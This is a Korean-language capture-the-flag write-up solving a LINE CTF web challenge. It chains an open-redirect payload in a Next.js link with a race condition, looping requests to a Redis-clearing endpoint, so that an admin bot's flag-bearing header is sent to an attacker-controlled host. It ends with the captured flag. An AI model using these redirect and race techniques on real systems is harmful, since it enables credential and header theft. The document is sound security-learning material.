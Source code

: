 ## hhhhhhhref

```javascript
await page.setExtraHTTPHeaders({
    "X-LINECTF-FLAG": process.env.FLAG
});
```
FLAG를 브라우저의 custom header로 설정하여 봇을 공격자의 서버로 접속시키는 것으로
플래그를 획득할 수 있습니다.

이를 위해 XSS 취약점 또는 Open redirection 취약점을 찾아야합니다.

```html
<Link
    href={{
        pathname: `/report/error/${props.errorCode}`,
    }}
    className="redirect_url"
    target="_blank"
>
    You are going to jump...
</Link>
```

[Link](https://nextjs.org/docs/pages/api-reference/components/link)

next.js의 link Component는 다른 경로로의 redirection을 위한 기능으로
errorCode에 `../../../../%09/example.com`을 전달할 경우 
페이지에 접속한 유저는 example.com으로 이동하게 됩니다.

```javascript
// are you USER?
if (userData.userRole === 'USER' && Object.keys(userData).length === 3) {
    return {
        redirect: {
            permanent: false,
            destination: '/error/403',
        },
        props: {},
    };
} else {
    return { props: { errorCode: errorCode } };
}

```

이를 사용하기 위해선 admin 권한을 획득하거나 reids 서버에 저장되는 user data의 길이가 3이 아니도록 설정해줘야 합니다.

```typescript
async function clear(req: any, res: any) {
    const session = await getServerSession(req, res, nextAuthOptions);

    if (!session) {
        return res.status(200).end();
    }

    if (!session.user) {
        return res.status(500).end();
    }

    const redis = new Redis(6379, 'redis');
    await redis.del(session.user.userId);
    redis.disconnect();
    return res.status(200).end();
}
```

이는 서버에서 redis에 user data를 저장할 때 사용하는 키가 유저마다 동일하다는 것을 활용하여 풀이할 수 있습니다.

공격자의 세션에서 `/api/auth/clear`에 지속적으로 요청을 보내고 동시에 bot에 crawling 요청을 보내면
bot이 rdr 경로에 접근하였을 때, redis에 저장된 userData가 삭제되어 봇이 공격자의 서버로 이동하게 됩니다.
이후 요청 헤더를 확인하면 플래그를 획득할 수 있습니다.

```
while (1) {
    await fetch('/api/auth/clear', { method: 'POST' });
}
```

```
LINECTF{7320a1b512380dd4e0452f9fc3166201}
```
